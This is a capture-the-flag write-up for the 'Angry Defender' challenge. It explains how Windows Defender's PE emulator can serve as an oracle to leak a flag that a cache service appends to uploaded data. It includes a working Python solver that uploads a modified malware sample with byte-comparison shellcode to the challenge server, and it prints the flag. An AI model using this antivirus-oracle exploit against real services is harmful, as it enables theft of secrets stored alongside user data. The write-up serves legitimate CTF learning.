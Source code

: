 # Description

> The flag is everywhere. You just need to catch it.
>
> Hint: Javascript doesn't make Defender angry enough.

# Analysis

```python
SECRET = os.environ["FLAG"].encode("ascii")
MAX_DATA_SIZE = 1024 * 1024
CACHE_FOLDER = "c:\\storage"
CACHE_SIZE = 256
```

- Constants tell us this application is running under windows system because the path has driver volume (`C:`)

```python
@app.route("/cache", methods=["PUT"])
def put() -> str:
    data = request.data
    if MAX_DATA_SIZE < len(data):
        abort(403)
    id = uuid.uuid4()
    lru.write(id.hex, data + SECRET)
    return str(id)
```

- `cache` handler appends the flag after our input and just return the key of lru cache.


```python
@app.route("/cache/<key>", methods=["GET"])
def get(key: str) -> bytes:
    id = uuid.UUID(key)
    try:
        blob = lru.read(id.hex)
    except KeyError:
        abort(404)
    data = blob[: -len(SECRET)]
    if data + SECRET != blob:
        abort(500)
    return data
```

- and then we can compare a http status code to see if someone(ok, windows defender) changed or deleted our input (=file).
- It's another version of icchy's [slide](https://speakerdeck.com/icchy/lets-make-windows-defender-angry-antivirus-can-be-an-oracle). 
- Unfortunately, we cannot add trailing bytes after the flag, it means, we cannot make a valid string token.

# Exploitation

**Windows Defender's Emulator is AWESOME**  

- According to Alexi's [slide](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf), windows defender also emulates a PE format exe.
- `MAX_DATA_SIZE` is < 1MB, we had to make a tiny PE file and would allow the flag to be recongnized as code(or attach to a memory).
- The first try is [http://www.phreedom.org/research/tinype/](http://www.phreedom.org/research/tinype/).

![./images/1.png](./images/1.png)

- good,
- we searched a lot on google but we could not find any way to an emulator to detect as virus.
- soon, I remember that rpisec is doing an malware traning course [https://github.com/RPISEC/Malware](https://github.com/RPISEC/Malware). their hacking skills are nice (as far as i know), so they have a tiny pe with malware sample? (I know that this was not a logical thinking. Yes I was lucky XD)
- after downloading a lecture 4, windows defender detected it as a malware. and then I added a '\xcc' (int 0x3) to the first code offset (0x200), surprisingly windows defender did not detect as a malware.

```python
#!/usr/bin/env python2 
# flag: p4{c4n_y0u_pr1n7_73n5h4-h0_w17h0u7_b07h_h4nd5?}
import requests
import time
import string

# 31 C0 83 F8 01 EB 01 90 90 CC CC
a = open('juno.exe', 'rb').read() # is inside a same directory.

b = a[:512]
c = a[512:]

from pwn import *

import string

def gogo(index, t):
    payload = asm(('''
            call a
            a:
            pop ebx
            add ebx, %d
            xor eax, eax
            mov al, byte ptr [ebx]
            cmp al, {what}
            jz b
            int 0x3
            b:
            ''' % (len(c) + 0x10 + index)).format(what=ord(t)))

    a = b + payload + c

    tmpkey = requests.put('http://angry-defender.zajebistyc.tf/cache', data=a).text
    res = requests.get('http://angry-defender.zajebistyc.tf/cache/{tmpkey}'.format(tmpkey=tmpkey))
    if res.status_code == 500:
        print 'wtf[%d]="%s"' % (index, t)


index = 0

import sys


# for i in xrange(36, 40):
for t in string.printable:
    t = threading.Thread(target=gogo, args=(int(sys.argv[1]), t))
    # t = threading.Thread(target=gogo, args=(i, t))
    t.start()

a = raw_input()
```
